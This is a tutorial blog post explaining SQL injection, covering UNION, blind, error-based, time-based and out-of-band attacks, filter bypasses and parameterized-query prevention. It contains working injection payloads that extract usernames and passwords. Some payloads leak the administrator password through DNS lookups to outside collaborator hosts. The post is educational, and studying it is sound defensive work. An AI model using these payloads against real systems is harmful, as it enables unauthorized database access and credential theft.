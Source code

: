 ```yaml
---
title: 'Understanding SQLi'
date: 2024-10-04 03:31:26
author: w0rmhol3
categories: 'Web 101'
tags: Web
cover: https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/SQLi/cover_pic.jpg?raw=true
---
```

SQL Injection (SQLI) is a common web security vulnerability that occurs when an attacker manipulates the SQL query sent from an application to its underlying database. By altering the intended query, attackers can access, modify, or delete data without proper authorization. This form of attack typically occurs in the WHERE clause of SELECT queries and can lead to severe consequences such as unauthorized data access or even complete compromise of the server (e.g., gaining administrative privileges).<!--more-->

## Basic SQLI Techniques
Attackers often use simple techniques to detect if an application is vulnerable to SQLI. One such method is injecting single quotes (') into the query to cause a syntax error and gauge the system's response. Additionally, Boolean-based SQLI techniques involve injecting conditions such as:

```sql
OR 1=1 (TRUE, always succeeds)
OR 1=2 (FALSE, always fails)
OR 'a' <> 'b' (TRUE, logical condition)
```
By analysing how the application responds to these inputs, attackers can determine if the system is vulnerable.

## SQLi Union Attacks
The `UNION` SQL operator allows attackers to retrieve data from different tables within the database if SQLI vulnerabilities exist. The `UNION` command combines results of two or more `SELECT` queries into a single output, but several conditions must be met:

The queries must return the same number of columns.
The data types in corresponding columns must be compatible.
Techniques for Identifying the Number of Columns:
Increment the `ORDER BY` clause until an error is encountered (e.g., `ORDER BY 1--`, `ORDER BY 2--`).
Use `UNION SELECT` with varying numbers of NULL values to deduce the correct number of columns.

## SQLi in Oracle
Oracle databases require the FROM keyword in all SELECT queries, even if no actual table is queried. Attackers use the built-in table dual to craft malicious queries. For example:

```sql
' UNION SELECT NULL FROM DUAL--
```

To handle queries that return a single column, attackers often concatenate column values using a delimiter, such as:
```sql
' UNION SELECT username || '~' || password FROM users--
```

## SQLi in MySQL
In MySQL, SQL comments must have a space after `--`, and `#` can also be used for comments. Attackers use `UNION SELECT` payloads to identify which columns contain string-type data. For instance:

```sql
UNION SELECT 1, username FROM users--
```

## Blind SQLi
Blind SQLI occurs when an application does not display query errors or results directly, but logical conditions can still be exploited to infer data. For example, a tracking ID cookie might be used in an SQL query like:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
An attacker can exploit this using blind SQLI with a condition like:
```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
The injection forces a true condition and return password where first character is greater than m, allowing attackers to use Boolean logic and brute-force techniques to extract data.

## Error-Based SQLi
Error-based SQLI takes advantage of detailed error messages to extract data. Attackers manipulate queries to trigger errors that reveal sensitive information. 

The effectiveness (means if it works or not) depends on the boolean conditions set. For example:

```sql
' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a

'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
The result that we are supposed to look for is the difference in error response through the injection.

## Time-Based SQLi
When an application does not provide visible feedback from a query, time-based SQLI can be used to extract data by measuring server response times. Database-specific queries introduce delays to test conditions. It would be useful if the database handles query errors robustly. For instance:

`no time delay, true condition:`
```sql
'; IF (1=1) WAITFOR DELAY '0:0:10'— 
```
`time delay, false condition:`
```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'-- 
```
This delays the server's response if the condition evaluates to true, allowing attackers to infer data without direct output.

## Out-of-Band SQLi (OAST)
Out-of-Band Application Security Testing (OAST) relies on communication between the vulnerable server and an external system under the attacker's control. A typical OAST attack exploits DNS or HTTP requests to leak data. For example:

`Perform DNS lookup on a specific domain:`
```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'—
```
The above example performs a DNS lookup on a domain controlled by the attacker. Attackers can combine UNION and XXE (XML External Entity) to leak data via subdomains.

`SQLI in OAST to leak data, with the leaked data being part of the subdomain name:`
```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.upneavivflfs9z2xmz65vswzbqhi59ty.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual—
```
The query will be able to leak the password as part of the subdomain, such as

`example output:`
```
p4ssw0rd.upneavivflfs9z2xmz65vswzbqhi59ty.oastify.com
```
## Bypassing SQLi Filters
To bypass SQLI filters, attackers encode payloads or modify their structure using tools like Burp Suite's hackvector extension. This technique is effective for bypassing web application firewalls (WAFs) that attempt to block SQLI.

`Example:`
```sql
<@dec_entities>1 UNION SELECT username || '~' || password FROM users;<@/dec_entities>
```

## Checking Database Version
Attackers often check the database version to craft appropriate payloads. Here are some common sql commands that can be used:

`MySQL:`
```sql
SELECT @@version
```

`Oracle:`
```sql
SELECT * FROM v$version
```

`ProgreSQL:`
```sql
SELECT version()
```

## SQLi Prevention Methods
The most effective way to prevent SQLI is to use parameterized queries and prepared statements, which separate user input from the SQL query structure. For instance:

```java
String query = "SELECT * FROM products WHERE category = ?";
PreparedStatement preparedStatement = connection.prepareStatement(query);
preparedStatement.setString(1, input);
ResultSet resultSet = preparedStatement.executeQuery();
```

This approach ensures user input is treated as data, not as part of the SQL command. Additional best practices include:
- Input validation and whitelisting.
- Use of stored procedures.
- Minimizing database permissions.
- Enforcing the principle of least privilege.

By following these practices, the application will have reduced risk of SQL injection attacks and have an improved overall security posture.